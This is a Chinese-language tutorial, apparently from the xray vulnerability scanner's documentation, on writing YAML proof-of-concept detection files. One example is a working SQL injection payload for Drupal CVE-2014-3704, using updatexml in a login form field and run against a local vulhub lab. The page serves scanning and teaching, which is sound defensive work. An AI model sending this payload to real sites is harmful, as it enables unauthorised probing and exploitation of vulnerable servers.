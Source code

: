 # 快速开始

我们拿访问example.com并匹配他的title来举例，首先我们需要准备一个POC文件，POC文件是一个yaml文件，包含了请求的信息和匹配的表达式，下面是一个简单的POC文件：

**POC:**
```yaml
name: poc-yaml-example
transport: http
rules:
  r0:
    request:
      method: GET
      path: /
    expression: response.status == 200 && response.title.bcontains(b"Example Domain")
expression: r0()
detail:
  author: test
  links:
    - https://example.com
```
## 如何使用 POC

将上述POC保存为example.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc example.yml --url http://127.0.0.1:8080
```
![](../assets/poc/hit.png)

## 如何调试 POC

如果 poc 无法扫出期望的结果，可以按照以下思路调试

- 确定 poc 语法正确，payload 正确。
- 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。

[//]: # (TODO：添加Burp发包截图)

## 实际案例

使用CVE-2014-3704进行举例，这是一个Drupal的未授权sql注入漏洞，靶场参考[vulhub/drupal/CVE-2014-3704](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2014-3704)

**POC:**
```yaml
name: poc-yaml-drupal-cve-2014-3704-sqli
transport: http
set:
  rand: randomInt(200000000, 210000000)
rules:
  r0:
    request:
      method: POST
      path: /?q=node&destination=node
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,(select md5({{rand}}))),0)%23]=bob&name[0]=a
    expression: >-
      response.status == 500 &&
      response.body.bcontains(bytes(substr(md5(string(rand)), 0, 31)))
expression: r0()
detail:
  author: test
  links:
    - https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704
```
将上述POC保存为drupal-cve-2014-3704-sqli.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc drupal-cve-2014-3704-sqli.yml --url http://127.0.0.1:8080
```
即可检测出漏洞